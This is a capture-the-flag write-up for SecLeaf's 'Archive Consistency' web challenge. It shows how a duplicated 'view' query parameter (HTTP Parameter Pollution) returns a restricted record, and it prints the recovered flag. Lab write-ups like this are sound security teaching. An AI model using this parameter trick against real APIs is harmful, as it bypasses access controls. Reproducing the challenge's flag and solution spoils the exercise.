


# 🔐 SecLeaf CTF Writeup

| Details | Information |
|---|---|
| Platform | SecLeaf |
| Category | Web Exploitation |
| Challenge | Archive Consistency |
| Challenge ID | WEB / 02 |
| Target Record | RD-947 |
| Vulnerability | HTTP Parameter Pollution (HPP) |

## 📌 Challenge Overview

The challenge involved an archive system containing public and restricted records.

The objective was to recover the evidence token from the protected revision of record `RD-947` without using brute force.

## 🔍 1. Initial Reconnaissance

I started by exploring the website and checking the available records.

I found three records:

- `RD-102` – Receiving Bay (Public)
- `RD-516` – Inventory Variance (Public)
- `RD-947` – Sealed Reconciliation (Restricted)

I opened Chrome Developer Tools and navigated to the **Network → Fetch/XHR** tab.

After clicking the **Load public record** button, I noticed this API request:


```http
GET /api/records/RD-947?view=public
```

The server returned:

```json
{
  "id": "RD-947",
  "note": "Internal revision not included.",
  "status": "redacted",
  "view": "public"
}
```

The response confirmed that the public version did not contain the internal revision.



## ⚡ 2. Exploitation

I decided to investigate how the application handled the `view` query parameter.

I tried adding a duplicate parameter with the value `restricted`.

Modified request:

```http
GET /api/records/RD-947?view=public&view=restricted
```

I opened the modified URL directly in the browser.

Surprisingly, the server returned the restricted version instead of the redacted public record.



## 🚩 3. Flag Recovery

The server returned the following response:

```json
{
  "evidence_token": "SecLeaf{ledger_8dfe7383f5657393289a132423dfeaf5be6f}",
  "id": "RD-947",
  "status": "recovered",
  "view": "restricted"
}
```

Successfully recovered the evidence token!

## 🏁 Flag

```text
SecLeaf{ledger_8dfe7383f5657393289a132423dfeaf5be6f}
```

## 💡 What I Learned

This challenge was a good learning experience. I got to explore API requests, inspect network traffic, and understand how duplicate query parameters can sometimes lead to unexpected access-control behavior.

**Key takeaway:** Never overlook small details in HTTP requests. Sometimes a simple parameter manipulation can reveal an interesting security issue.

---

*Happy Hacking! 🔐*